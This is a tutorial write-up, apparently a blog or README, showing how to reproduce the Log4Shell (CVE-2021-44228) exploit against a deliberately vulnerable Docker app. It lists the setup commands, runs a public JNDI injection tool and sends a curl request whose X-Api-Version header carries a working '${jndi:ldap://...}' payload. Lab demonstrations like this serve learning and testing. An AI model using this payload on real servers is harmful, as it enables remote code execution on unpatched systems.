





## POC log4j exploit.

### Introduction 

<p style="text-align: justify;">
Recently the vulnerability CVE-2021-44228 has come to light. Many of the posts explain how to check if you are vulnerable, let's go one step further and test some public exploit.</p>

### Setting up environment.

<p style="text-align: justify;">
There is a docker created by "christopherd" which raises a vulnerable application, perfect for testing without affecting anyone.</p>

```sudo docker run --rm -p 8080:8080 --name POC ghcr.io/christophetd/log4shell-vulnerable-app```



<p style="text-align: justify;">
On the other hand we will need to run the exploit and for that we need a server to which our application has network access. The exploit that we will use can be found in the following link:
</p>


https://github.com/welk1n/JNDI-Injection-Exploit

<p style="text-align: justify;">
For it to work correctly we will run it inside the openjdk docker container.</p>

```sudo docker run -it -p 8180:8180 -p 1099:1099 -p 1389:1389 -v $(pwd):/data/exploit --name java openjdk:latest /bin/sh```

<p style="text-align: justify;">
Once inside the container we execute the exploit. Specifically, we will make the exploit create the "pwnd" file inside the tmp directory, to do so we will execute the following command.</p>

```java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/pwnd" -A <IP>```



### Exploiting

<p style="text-align: justify;">
Now let's get to the fun part.... In order to run the exploit, the creator of the vulnerable container tells us that we have to insert the exploit as the value of the "X-Api-Version" header. To do this we are going to use the link that marks the exploit used with the curl...</p>

```curl IP:8080 -H 'X-Api-Version: ${jndi:ldap://0.0.0.0:1389/ly7kts}' ```


<p style="text-align: justify;">
As we can see below, the exploit has told us that it has received a connection.</p>



<p style="text-align: justify;">
But... what caused this connection? Well, if we look at the logs of the vulnerable app we can see that it was our application sending the curl.
</p>



<p style="text-align: justify;">
Finally if our file has been created we see that our command has been successfully executed. And as we see below :P : 
</p>



### Interesting links

[Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)


[Docker Vulnerable](https://www.lunasec.io/docs/blog/log4j-zero-day/#reproducing-locally)


[ LinkedIn](https://www.linkedin.com/in/eduard-gonzalez) &nbsp;  &nbsp; [ GitHub](https://github.com/wanetty)
